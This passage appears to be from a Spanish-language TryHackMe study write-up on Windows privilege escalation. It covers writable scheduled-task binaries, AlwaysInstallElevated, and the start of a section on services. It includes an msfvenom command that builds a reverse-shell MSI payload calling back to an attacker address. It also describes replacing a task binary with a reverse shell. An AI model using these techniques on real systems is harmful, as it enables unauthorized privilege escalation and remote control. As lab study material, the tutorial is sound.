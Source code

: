 De entre toda la información presentada, normalmente lo que más nos interesa son los parámetros "*Task To Run*" y "*Run As User* que nos informan respectivamente de qué se ejecuta y por quién.

- Así, si nuestro usuario puede modificar el mencionado binario, podemos en definitiva controlar qué se ejecuta por otro usuario consiguiendo en términos prácticos una escalada de privilegios (ya que, en definitiva, ejecutamos código como otro usuario).

En este contexto es útil el comando *icacls*, que nos permite conocer los permisos de un ficheor ejecutable:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220901144127.png' | relative_url }}" text-align="center"/>
</div>

La imagen anterior nos muestra los grupos que tienen permisos sobre el fichero, en concreto la opción (F) nos muestra que tienen Full access.

- Con lo cual, sólo queda insertar dentro del binario código malicioso, como una revershell:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220901144702.png' | relative_url }}" text-align="center"/>
</div>

Y ejecutar la tarea:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220901144717.png' | relative_url }}" text-align="center"/>
</div>

Escuchándo previamente conexiones en nuestra máquina local:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220901144738.png' | relative_url }}" text-align="center"/>
</div>

<br />

- *AlwaysInstallElevated*:

Los archivos de instalación de Windows (también conocidos como archivos .msi) se utilizan para instalar aplicaciones en el sistema. Por lo general, se ejecutan con el nivel de privilegio del usuario que lo inicia. Sin embargo, estos pueden configurarse para ejecutarse con mayores privilegios desde cualquier cuenta de usuario (incluso las que no tienen privilegios). Esto podría permitirnos generar un archivo MSI malicioso con MSFVenom que se ejecutaría con privilegios de administrador.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.135.134 LPORT=LOCAL_PORT -f msi -o malicious.msi
```

<br />

**Window Services. Abusing Service Misconfiguration**

- *Windows Services*:

Un *servicio* es concretamente una funcionalidad proporcionada por una entidad ajena al usuario, ya sea una tarea automatizada por el sistema o una funcionalidad que proporciona un servidor externo.
